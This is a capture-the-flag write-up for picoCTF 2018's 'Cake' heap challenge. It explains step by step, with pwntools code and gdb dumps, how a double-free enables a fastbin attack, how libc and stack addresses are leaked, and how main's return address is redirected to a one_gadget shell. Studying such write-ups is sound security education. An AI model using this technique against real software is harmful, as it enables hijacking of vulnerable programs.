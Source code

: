 # Cake
**Category:** Binary Exploitation

**Points:** 900

**Description:** 
Now that you're a professional heap baker, can you pwn this for us? It should be a piece of cake. Connect with `nc 2018shell2.picoctf.com 54086`. [libc.so.6](https://2018shell2.picoctf.com/static/397794d1487f1c94583fbf0437799b5d/libc.so.6)

----------

## Solution

### Notes
I got a lot of core dumps during this process of trial and error, and the following made my debugging life so much easier.

* Make sure the provided libc is *NOT* in the current directory; you will actually lose debug symbols by doing so. Just use libc.so.6 from the system path on the shell server.

* Also, having a copy of `malloc.c` from glibc version 2.23 is very helpful.

### Initial Observations

Like other picoCTF binary exploit problems, compiler optimization is disabled. Given the relatively simple logic of the program, decompiling by hand isn’t too bad. You can find the source code [here](https://github.com/jespiron/picoCTF-2018/blob/master/binary/cake/cake.c), of which I omitted some parts.

Upon serving the same cake twice, we find a crash due to a double-free bug. This gives us the opportunity for a fastbin attack.

Our exploit will have something to do with the global variable `shop`, the 0x20 byte memory chunks allocated by `make()`, and `inspect()`.

### Leaking the return address
We first need to get the libc address. After that, we can get the stack address via libc.environ, according to [this guy](https://github.com/Naetw/CTF-pwn-tips).

This program uses `stdin`, which points to `_IO_2_1_stdin_` in libc.

<pre>
``` (gdb) x/4gx 0x6030d0
0x6030d0 <stdin@@GLIBC_2.2.5>:  <b>0x00007ffff7dd18e0</b>      0x0000000000000000
0x6030e0 <shop>:        0x0000000000000000      0x0000000000000000
(gdb) x/2gx 0x00007ffff7dd18e0
0x7ffff7dd18e0 <<b>_IO_2_1_stdin_</b>>:        0x00000000fbad2088      0x0000000000000000
```
</pre>

We have indirect control over `shop + 0x00` (total sales) and `shop + 0x08` (number of customers waiting).

Initially, I tried `shop + 0x00`. I got the leak, but wound up having a corrupted chunk in fastbin I lost control of. As a result, the subsequent malloc calls resulted in crash.

Thus, we will use `shop + 0x08` instead.

I used the following code to get the address of the `cake` symbols and the pre-ASLR addresses of the `libc` symbols.

```cake = ELF(“./cake”)

shop = cake.symbols['shop']
stdin = cake.symbols['stdin']

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

file_IO_2_1_stdin_ = libc.symbols['_IO_2_1_stdin_']
file_environ = libc.symbols['environ']
file_libc_text = libc.get_section_by_name('.text').header.sh_addr
```

First, prepare a fake chunk for `fastbin`. The size of all of the malloc requests are hardcoded as 0x10 bytes and fall into `fastbin[0]`. Hence, we must keep `shop + 0x8` in the range of 0x20~0x2f. We're allowed up to 0x2f because malloc ignores the lower 4 bits when allocating from fastbin.

For every line of input to `main`, there is a 1/3 chance of receiving a new customer. Therefore, we will need at least 96 arbitrary commands to get `0x20` customers. However, due to the `serve()` command, we must take into account of decrementing the customer headcount.

Through some trial and error, I used 108 “T” commands, but any other invalid cake command would work too. I didn’t use the valid “W” command, since it called `spin()`, which took up time.

```
conn.send("T\n" * 108)
for i in range(109):
   wait_prompt()
```

Next, follow the logic in fastbin_dup.c from https://github.com/shellphish/how2heap.
```
c0 = make_cake(0x0, p64(0x0))     # chunk_0
c1 = make_cake(0x0, '')    # chunk_1
serve(c0)   # fastbin[0] -> chunk_0
serve(c1)   # fastbin[0] -> chunk_1 -> chunk_0
serve(c0)   # fastbin[0] -> chunk_0 -> chunk_1 -> chunk_0
chunk_1 = inspect(c0)
chunk_0 = inspect(c1)
```

Third, link our fake chunk `shop` into `fastbin`.
```
c2 = make_cake(shop, p64(0x0)) # malloc return chunk_0
c3 = make_cake(0x0, '')        # malloc return chunk_1
c4 = make_cake(shop, p64(0x21)) # malloc return chunk_0
```

As shown in the debugger, `shop` is now in `fastbin`. Because the debug symbols are available, we can just use C-like syntax to check fastbin's values.

```
(gdb) print main_arena.fastbinsY[0]
$3 = (mfastbinptr) 0x6030e0 <shop>
```

Consequently, malloc will return `shop + 0x10` when we make our next cake request.

We set its name to "stdin". This will place the address of "stdin" into `shop + 0x18`, which corresponds to cake 1.

```c5 = make_cake(shop, p64(stdin))
_IO_2_1_stdin_ = inspect(1) # read the address from cake #1

libc_reloc_delta = _IO_2_1_stdin_ - file_IO_2_1_stdin_
libc_text = libc_reloc_delta + file_libc_text
libc_environ = libc_reloc_delta + file_environ
```
We set its price to `shop` to create a circular singly linked list (depicted below).
```
   shop + 0x00 -> value doesn’t matter
   shop + 0x08 -> must be in the range of 0x20 ~ 0x2f
   shop + 0x10 -> fd (next free chunk) points to shop!
   shop + 0x18 -> use for leaking
```

Let’s look at what `fastbin` has now. As expected, fastbin[0] has `chunk_0`’s address, so we need the `0x21` in `c4 = make_cake(shop, p64(0x21))` to pass the malloc chunk size validation for making `c6` later.

```
(gdb) print main_arena.fastbinsY[0]
$1 = (mfastbinptr) 0x156e020
(gdb) x/2gx 0x156e020
0x156e020:      0x00000000006030e0      0x0000000000000021
(gdb) x/8gx &shop
0x6030e0 <shop>:        0x0000000000000000      0x0000000000000021
0x6030f0 <shop+16>:     0x00000000006030e0      0x00000000006030d0
0x603100 <shop+32>:     0x000000000156e020      0x000000000156e040
0x603110 <shop+48>:     0x000000000156e020      0x00000000006030f0
```
Let’s get the corrupted chunk_0 off of fastbin. It is corrupted because it points to `chunk_0`’s user space instead of malloc’s chunk header (0x10 bytes ahead of the user space).

We make `c6`, which succeeds thanks to the `0x21` when making `c4`.

Because of the corruption, malloc will return `chunk_0 + 0x10` for making `c6`, which is the header of `chunk_1`. We shouldn't change `chunk_1`’s header, so we use its original value of `0x21` in order for another subsequent malloc (not mentioned here) to succeed.

```c6 = make_cake(0x0, p64(0x21))      # chunk_0 + 0x10```

Next, we use `libc.environ` to leak the stack address. Again, we utilize the fastbin trick to add our faked circular chunk `shop` into `fastbin`. `shop + 0x10` has the desired value, `shop`, pointing to its own chunk header. Therefore, after this round, `fastbin[0]` will return `shop + 0x10` so as long as `shop + 0x8` remains in the range of 0x20~0x2f.

### Redirecting to one_gadget by changing the return address of the main function

Let’s take a look at the `make()` function again. It first overwrites the second 8-byte block of the newly allocated memory for name, then the first 8-byte block for price.

Note that it doesn’t keep the address of the newly allocated memory in a register. It always reads from memory due to compiler optimization being disabled. This gives us the opportunity to overwrite the memory for holding the newly allocated address during the first 8-byte read for name. When the program reads in the price, it will write into the location we set for the name.

```
   0x0000000000400c0b <+207>:   mov    -0x28(%rbp),%rax
   0x0000000000400c0f <+211>:   mov    -0x14(%rbp),%edx
   0x0000000000400c12 <+214>:   movslq %edx,%rdx
   0x0000000000400c15 <+217>:   add    $0x2,%rdx
   0x0000000000400c19 <+221>:   mov    (%rax,%rdx,8),%rax
   0x0000000000400c1d <+225>:   add    $0x8,%rax
   0x0000000000400c21 <+229>:   mov    $0x8,%esi
   0x0000000000400c26 <+234>:   mov    %rax,%rdi
   0x0000000000400c29 <+237>:   callq  0x400a99 <fgets_eat>
...
   0x0000000000400c3d <+257>:   mov    -0x28(%rbp),%rax
   0x0000000000400c41 <+261>:   mov    -0x14(%rbp),%edx
   0x0000000000400c44 <+264>:   movslq %edx,%rdx
   0x0000000000400c47 <+267>:   add    $0x2,%rdx
   0x0000000000400c4b <+271>:   mov    (%rax,%rdx,8),%rbx
   0x0000000000400c4f <+275>:   mov    $0x0,%eax
   0x0000000000400c54 <+280>:   callq  0x400a40 <get>
   0x0000000000400c59 <+285>:   mov    %rax,(%rbx)0x603110 <shop+48>:     
```
For this to work, we need to make sure the new cake is stored in slot 1 so that `shop + 0x18` will point to `shop + 0x10` (remember that we tricked malloc to always return `shop + 0x10`).

The second 8-byte block of `shop + 0x10` is `shop + 0x18`. As a result, reading in `name` will overwrite slot 1 itself.

To achieve this, just set `shop + 0x18` to NULL. We can do this because malloc always returns `shop+0x10`.

```c11 = make_cake(shop, p64(0))```

We set the return address of the main function to the one_gadget address* in libc. Once we close the shop, we will get into the shell.

```
c1 = make_cake(one_gadget, p64(main_return_address))
conn.send("C\n")
```

*I found the one_gadget address using [this handy tool](https://github.com/david942j/one_gadget)! I picked `0x45216` because the main function returns 0, thus satisfying the stated one_gadget constraint of `rax` being null.
